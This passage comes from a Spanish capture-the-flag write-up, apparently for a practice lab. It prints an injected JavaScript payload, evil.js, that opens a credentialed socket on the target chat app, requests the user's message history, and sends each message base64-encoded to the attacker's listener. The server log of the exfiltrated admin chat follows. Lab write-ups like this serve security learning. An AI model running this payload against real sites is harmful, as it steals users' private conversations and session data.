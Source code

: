 Este es el archivo `evil.js`
```javascript
$ cat evil.js 
fetch("http://10.10.14.71:8081/injected")

// Incluimos el socket.io.js ya que en principio no está incluido.
const script = document.createElement("script")
script.src = "http://10.129.230.190/socket.io/socket.io.js"
document.head.appendChild(script)

// Esperamos a que carge el script......
script.addEventListener('load', function() {
	fetch("http://10.10.14.71:8081/loadedd")
	const res = fetch('/user/api/chat'); // No se si está la libreria de axios inyectada ya
	const socket = io('/',{withCredentials: true});
	socket.on('message', (msg) => {
		fetch("http://10.10.14.71:8081/?q=" + msg)
	});
	socket.emit('client_message', 'help');
});
```

Vamos a hacer un par de retoques finales, primero vamos a codificar en base64 la respuesta para poder verla mas cómoda.

Modificamos la linea `fetch("http://10.10.14.71:8081/?q=" + msg)` por `fetch("http://10.10.14.71:8081/?q=" + btoa(msg))`

Y la linea `socket.emit('client_message', 'help')` por `socket.emit('client_message', 'history')` ya que lo que queremos es ver el historial del usuario.

Y recibimos la siguiente data
```shell
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.230.190 - - [31/Jul/2024 19:22:40] "GET /evil.js HTTP/1.1" 200 -
10.129.230.190 - - [31/Jul/2024 19:22:40] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:22:40] "OPTIONS /injected HTTP/1.1" 501 -
10.129.230.190 - - [31/Jul/2024 19:22:40] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:22:40] "OPTIONS /loadedd HTTP/1.1" 501 -
10.129.230.190 - - [31/Jul/2024 19:22:40] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:22:40] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 -
10.129.230.190 - - [31/Jul/2024 19:22:40] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:22:40] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.129.230.190 - - [31/Jul/2024 19:22:40] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:22:40] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 -
10.129.230.190 - - [31/Jul/2024 19:22:40] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:22:40] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.129.230.190 - - [31/Jul/2024 19:22:40] code 501, message Unsupported method ('OPTIONS')
10.129.230.190 - - [31/Jul/2024 19:22:40] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
```
